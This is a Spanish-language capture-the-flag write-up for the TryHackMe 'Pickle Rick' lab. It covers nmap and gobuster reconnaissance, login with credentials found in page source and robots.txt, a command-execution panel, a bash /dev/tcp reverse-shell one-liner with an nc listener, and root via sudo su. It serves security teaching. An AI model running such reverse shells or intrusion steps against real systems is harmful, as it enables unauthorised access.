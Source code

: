 # Pickle Rick

[Pickle Rick](https://tryhackme.com/r/room/picklerick) es un nivel facil de la plataforma TryHackMe de nivel fácil. En esta máquina se tocan temas de WebHacking.

## Reconocimiento <a href="#reconocimiento" id="reconocimiento"></a>

Primero hacemos un escaneo de puertos con **nmap**.

```bash
nmap -p- --open --min-rate 5000 -n -Pn -vvv 10.10.147.169 -oN escaneo 
```

* **-p-**: Indica que escanee todos los puertos , desde el 1 hasta el 65535. Sin este parámetro solo se escanea los 1000 puertos más comunes.
* **–open**: Solo escanear puertos abiertos.
* **-sS**: SYN Scan, también conocido como half-open scan, este no completa la conexión con el destino, esto hace el escaneo un poco más rápido y difícil de detectar.
* **-sC**: Activa la ejecución de scripts de predeterminados Nmap Scripting Engine (NSE).
* **-sV**: Encuentra la versión de servicio que corre en cada puerto.
* **–min-rate**: Fija la cantidad mínima de paquetes para enviar por segundo.
* **-n**: No resolución DNS.
* **-Pn**: Null Ping. Se usa por si el servidor esta bloqueando trazas ICMP.
* **-vvv**: Triple verbose. Hace que imprima la información mientras la va encontrando. Se puede modificar la cantidad de “v”, el máximo es 3.
* **-oN**: Se utiliza para guardar los resultados del escaneo en un archivo de salida en **formato normal** (normal output). Siempre va acompañado del nombre del archivo donde se guardara.

<figure><img src="../../.gitbook/assets/nmap-scaneo.png" alt=""><figcaption></figcaption></figure>

Este escaneo nos muestra que la máquina tiene abiertos los puertos: **80(HTTP)** y **22(SSH)**.

Entramos a la página y hacemos un poco de exploración.

<figure><img src="https://eberstr.github.io/img/picklerick/sitio.png" alt=""><figcaption></figcaption></figure>

La página es muy sencilla por lo que nos brincamos directo a inspeccionar el código fuente, ahí encontramos algo muy interesante **¡un usuario!**\


<figure><img src="https://eberstr.github.io/img/picklerick/user.png" alt=""><figcaption></figcaption></figure>

\
Una vez encontrado el usuario exploramos algunas rutas que siempre son de interes como `robots.txt` y `sitemaps.xml`. Al parecer no existe el archivo sitemaps pero dentro de robots encontramos un mensaje un poco extraño que guardaremos para después.

<figure><img src="https://eberstr.github.io/img/picklerick/robots.png" alt=""><figcaption></figcaption></figure>



## Fuzzing <a href="#fuzzing" id="fuzzing"></a>

Para esta etapa usaremos gobuster, buscaremos subdominios interesantes y archivos con extensiones **.php**, .html y **.txt**

```bash
gobuster dir -u http://10.10.147.169 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="https://eberstr.github.io/img/picklerick/fuzzing.png" alt=""><figcaption></figcaption></figure>

De los resultados más interesantes es el panel de login, en el cual intentamos ingresar utilizando el usuario `R1ckRul3s` y de contaseña `Wubbalubbadubdub`\
\


<figure><img src="https://eberstr.github.io/img/picklerick/login.png" alt=""><figcaption></figcaption></figure>

**¡¡Funcionó!!**

Dentro del panel nos encontramos con un panell de comandos. Le ingresamos el comando `whoami` para probar si funciona.

<figure><img src="https://eberstr.github.io/img/picklerick/command-panel.png" alt=""><figcaption></figcaption></figure>

## Exploit <a href="#exploit" id="exploit"></a>

Como se ve en la imagen, el comando funcionó. Ahora nos intentamos enviar una reverse shell para trabajar un poco más cómodos desde la terminal.

```bash
bash -c  "sh -i >& /dev/tcp/<IP Victima>/<puerto> 0>&1"
```

No olviden ponerse en escucha para poder recibir la reverse shell:

```bash
sudo nc -lnvp <puerto>
```



<figure><img src="https://eberstr.github.io/img/picklerick/reverse-shell.png" alt=""><figcaption></figcaption></figure>

Una vez recibida la shell exploramos archivos y vemos los primeros archivos interesantes en la ruta de `/var/www/html`.

<figure><img src="https://eberstr.github.io/img/picklerick/primer-ingrediente.png" alt=""><figcaption></figcaption></figure>

El primer archivo interesante es **Sup3rS3cretPickl3Ingred.txt** en el cual esta el primer ingrediente que estamos buscando. El segundo archivo es **clue.txt** en el cual solo nos indican que tenemos que explorar en los demás archivos.

El primer lugar en el que buscamos es en la ruta del usuario rick **/home/rick/** y justo encontramos lo que buscabamos: **second ingridients**.

<figure><img src="https://eberstr.github.io/img/picklerick/segundo-ingrediente.png" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios <a href="#escalada-de-privilegios" id="escalada-de-privilegios"></a>

Para el tercer ingrediente buscaremos en la directorio `/root` pero primero necesitaremos escalar privilegios. Para esto ejecutamos el siguiente comando:

```bash
sudo -l
```

Este comando nos sirve para listar los comandos que el usuario puede ejecutar como **sudo**. Los resultados nos muestran que el usuario `www-data` tiene permisos para ejecutar cualquier comando como sudo.

<figure><img src="https://eberstr.github.io/img/picklerick/sudo-l.png" alt=""><figcaption></figcaption></figure>

Podemos escalar privilegios simplemente ejecutando el comando `sudo su`, después vamos a la ruta **/root** en donde se encuentra el tercer ingrediente.

<figure><img src="https://eberstr.github.io/img/picklerick/tercer-ingrediente.png" alt=""><figcaption></figcaption></figure>

Y con esto logramos todos los objetivos de la máquina.

¡Saludos!
